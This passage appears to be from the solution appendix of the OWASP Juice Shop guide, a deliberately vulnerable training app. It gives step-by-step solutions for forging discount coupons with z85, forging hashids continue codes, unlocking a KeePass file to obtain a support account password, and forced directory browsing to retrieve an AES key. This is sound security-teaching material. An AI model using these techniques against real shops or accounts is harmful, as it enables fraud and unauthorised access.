   characters of the code, you could now start a trial-end-error or
   brute force attack generating codes and try redeeming them on the
   _Your Basket_ page. At some point you will probably hit one that
   gives 80% or more discount.
6. You need to _Checkout_ after redeeming your code to solve the
   challenge.

#### _Reverse engineering_ solution path

1. Going through the dependencies mentioned in `package.json.bak` you
   can speculate that at least one of them could be involved in the
   coupon code generation.
2. Narrowing the dependencies down to crypto or hashing libraries you
   would end up with `hashids`, `jsonwebtoken` and `z85` as candidates.
3. It turns out that `z85`
   ([ZeroMQ Base-85 Encoding](https://rfc.zeromq.org/spec:32/Z85/)) was
   chosen as the coupon code-creation algorithm.
4. Visit <https://www.npmjs.com/package/z85> and check the _Dependents_
   section:

   
5. If you have NodeJS installed locally run `npm install -g z85-cli` to
   install <https://www.npmjs.com/package/z85-cli> - a simple command
   line interface for `z85`:

   
6. Check the official Juice Shop Twitter account
   <https://twitter.com/owasp_juiceshop> for a valid coupon code. At the
   time of this writing - January 2017 - the broadcasted coupon was
   `n<Mibh.u)v` promising a 50% discount.

   
7. Decrypting this code with `z85 -d "n<Mibh.u)v"` returns `JAN17-50`
8. Encrypt a code valid for the current month with 80% or more discount,
   e.g. `z85 -e JAN17-80` which yields `n<Mibh.v0y`.
9. Enter and redeem the generated code on the _Your Basket_ page and
   _Checkout_ to solve the challenge.

### Solve challenge #99

1. Solve any other challenge
2. Inspect the cookies in your browser to find a `continueCode` cookie
   with 30 days lifetime
3. The `package.json.bak` contains the library used for generating
   continue codes: `hashid`
4. Visit <http://hashids.org/> to get some information about the
   mechanism
5. Follow the link labeled _check out the demo_
   (<http://codepen.io/ivanakimov/pen/bNmExm>)
6. The Juice Shop simply uses the example salt (`this is my salt`) and
   also the default character range
   (`abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890`)
   from that demo page. It just uses a minimum length of `60` instead of
   `8` for the resulting hash:

```javascript
   var hashids = new Hashids("this is my salt", 60, "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890");

  var id = hashids.encode(99);
  var numbers = hashids.decode(id);

  $("#input").text("["+numbers.join(", ")+"]");
  $("#output").text(id);
```

1. Encoding the value `99` gives you the hash result
   `69OxrZ8aJEgxONZyWoz1Dw4BvXmRGkKgGe9M7k2rK63YpqQLPjnlb5V5LvDj`
2. Send a `PUT` request to the URL
   <http://localhost:3000/rest/continue-code/apply/69OxrZ8aJEgxONZyWoz1Dw4BvXmRGkKgGe9M7k2rK63YpqQLPjnlb5V5LvDj>

   

### Log in with the support team's original user credentials

> Solving this challenge requires [KeePass 2.x](http://keepass.info)
> installed on your computer. If you are using a non-Windows OS you need
> to use some unofficial port.

1. Download and install KeePass 2.x from <http://keepass.info>
2. Get the support team's KeePass database file from
   <http://localhost:3000/ftp/incident-support.kdbx> (note how this file
   is _not blocked_ by the file type filter).
3. Inspecting the DOM of the _Login_ form reveals a HTML comment in
   Romanian language: `<!-- @echipa de suport: Secretul nostru comun
   este încă Caoimhe cu parola de master gol! -->`
4. Running this through an online translator yields something like:
   `Support Team: Our secret is still common Caoimhe master password
   empty!`
5. From `master password empty` you can derive, that the KeePass file is
   protected with **only a key file** instead of a password!
6. The key file must be something the support team has access to from
   everywhere - how else would they achieve 24/7?
7. The second important hint is the reference to `Caoimhe`, which
   happens to be an Irish feminine given name.
8. Visit <http://localhost:3000/#/about> and cycle through the photos of
   all support staff that are displayed in the background feedback
   carousel. There is one woman with red hair - maybe she actually _is_
   "Caoimhe"?
9. Download the photo
   <http://localhost:3000/public/images/carousel/6.jpg> and use it as a
   key file to unlock the KeePass database.
10. Find the password for the support team user account in the `prod`
    entry of the KeePass file.

    
11. Log in with `support@juice-sh.op` as _Email_ and
    `J6aVjTgOpRs$?5l+Zkq2AYnCE@RF§P` as _Password_ to beat this
    challenge.

    

### Unlock Premium Challenge to access exclusive content

1. Inspecting the HTML source of the corresponding row in the _Score
   Board_ table reveals a HTML comment that is obviously encrypted:
   `<!--R9U8AvGlBbjhHXHW422jxVL2hoLBr8wflIAQ8d/jlERpKnrNlMErs1JfgT9EK/kzTtdb1GPhuWAz3i2HhomhaFMxvg4na+tvTi+8DoQoeqZH1KADoM2NJ7UOKc14b54cdRTXiYV7yFUzbPjjPVOWZFSmDcG6z+jQIPZtJuJ/tQc=-->`.

   
2. This cipher came out of an AES-encryption using
   <http://aesencryption.net> with a 256bit key.
3. To get the key you should run a _Forced Directory Browsing_ attack
   against the application. You can use OWASP ZAP for this purpose.
   1. Of the word lists coming with OWASP ZAP only
      `directory-list-2.3-big.txt` and
      `directory-list-lowercase-2.3-big.txt` contain the directory with
      the key file.
   2. The search will uncover <http://localhost:3000/encryptionkeys> as
      a browsable directory
   3. Open <http://localhost:3000/encryptionkeys/premium.key> to
      retrieve the AES encryption key `EA99A61D92D2955B1E9285B55BF2AD42`
4. The cipher and the key together can be used to retrieve the plain
   text on <http://aesencryption.net>:
   `/this/page/is/hidden/behind/an/incredibly/high/paywall/that/could/only/be/unlocked/by/sending/1btc/to/us`

   
5. Visit
   <http://localhost:3000/this/page/is/hidden/behind/an/incredibly/high/paywall/that/could/only/be/unlocked/by/sending/1btc/to/us>
   to solve this challenge and marvel at the premium content!

[^1]: <http://hakipedia.com/index.php/Poison_Null_Byte>

[^2]: <https://en.wikipedia.org/wiki/Easter_egg_(media)>

[^3]: <https://en.wikipedia.org/wiki/ROT13>

[^4]: <http://www.kli.org/about-klingon/klingon-history>

[^5]: <https://en.wikipedia.org/wiki/List_of_postal_codes_in_Germany>